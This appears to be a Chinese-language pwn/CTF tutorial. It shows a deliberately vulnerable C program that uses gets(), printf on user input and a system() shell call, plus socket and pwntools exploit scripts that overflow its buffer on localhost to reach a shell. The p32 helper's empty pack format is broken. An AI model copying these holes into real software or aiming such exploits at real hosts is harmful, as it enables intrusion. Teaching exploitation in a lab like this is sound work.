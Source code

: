 # 3.使用Python脚本进行pwn 

## 远程发送payload

目标可执行文件源代码:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

char sh[] = "/usr/bin/sh";

int init()
{
    setvbuf(stdin , 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    return 0;
}

int func(char* cmd)
{
    system(cmd);
    return 0;
}

int main()
{
    char a[8] = { };
    char b[8] = { };
    puts("input: ");
    gets(a);
    printf(a);
    if (b[0] == 0x10) {
        func(sh);
    }
    return 0;
}
```

使用`socat tcp-l:8888,fork exec:./a.out,reuseaddr`指令部署题目, `nc 127.0.0.1 8888`可以接入连接

Python代码模板

```python
import socket
import telnetlib
import struct

def p32(val):
    # convert 32 bit int to little endian
    return struct.pack("", val)

def pwn():
    # create a tcp socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    # connect the server and port
    s.connect(("127.0.0.1", 8888))
    # send payload
    payload = b'a' * 8 + b'\x10'
    s.sendall(payload + b'\n')

    # use telnet to connect
    t = telnetlib.Telnet()
    t.sock = s
    t.interact()

if __name__ == "__main__":
    pwn()
```

## pwntools库

以[demo1.c](../code/demo1.c)的编译产物为例(`gcc demo1.c -std=c89 -no-pie`), 使用pwn库的一个案例如下

```python
import pwn

# assign 
pwn.context(log_level='debug', arch='i386', os='linux')
target = './a.out'

# start the process
io = pwn.process(target)
elf = pwn.ELF(target)
rop = pwn.ROP(target)

payload = '\x61' * 9

# after receiving string 'input: \n', send the payload
io.recvuntil('input: \n')
io.send(payload + '\n')
io.interactive()
```
